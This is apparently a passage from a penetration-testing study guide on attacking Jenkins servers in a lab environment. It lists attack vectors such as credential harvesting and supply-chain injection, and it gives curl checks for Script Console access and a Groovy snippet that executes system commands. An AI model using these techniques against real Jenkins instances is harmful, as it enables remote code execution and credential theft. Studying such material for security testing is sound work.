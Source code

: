 # ⚔️ Jenkins Attacks & Exploitation

> **🎯 Objective:** Master advanced exploitation techniques for Jenkins CI/CD automation servers, focusing on Script Console abuse, Groovy command execution, pipeline manipulation, and known vulnerability exploitation for achieving remote code execution and development infrastructure compromise.

## Overview

Jenkins exploitation represents one of the **most impactful attack vectors** in enterprise development environments, often providing **immediate SYSTEM/root privileges** and **access to the entire software supply chain**. With Jenkins frequently running with **elevated privileges** for system integration and **direct access to source code, credentials, and deployment systems**, successful exploitation can lead to **complete development infrastructure compromise**.

**Critical Attack Vectors:**
- **Script Console Exploitation** - Groovy-based command execution with SYSTEM privileges
- **Pipeline Manipulation** - Build process injection and malicious code deployment
- **Credential Harvesting** - Access to stored passwords, API keys, and deployment credentials
- **Supply Chain Attacks** - Injection of malicious code into production deployments
- **Agent Compromise** - Lateral movement through Jenkins build slaves

**Enterprise Impact:**
- **Development Infrastructure Control** - Complete access to CI/CD pipeline and build processes
- **Source Code Access** - Repository credentials and sensitive development data
- **Production Deployment Capability** - Direct path to production system compromise
- **Supply Chain Compromise** - Ability to inject malicious code into software products
- **SYSTEM/Root Privileges** - Jenkins often runs with highest system privileges

---

## Script Console Exploitation

### Groovy Command Execution

#### Script Console Access
```bash
# Script Console URL structure
http://jenkins.inlanefreight.local:8000/script

# Authentication verification for Script Console access
curl -b cookies.txt "http://jenkins.inlanefreight.local:8000/script" | \
  grep -q "Script Console" && echo "[+] Script Console accessible"

# Direct access testing (anonymous)
curl -s "http://jenkins.inlanefreight.local:8000/script" | \
  grep -q "Script Console" && echo "[!] CRITICAL: Anonymous Script Console access!"
```

#### Basic Command Execution
```groovy
// Basic command execution via Groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```
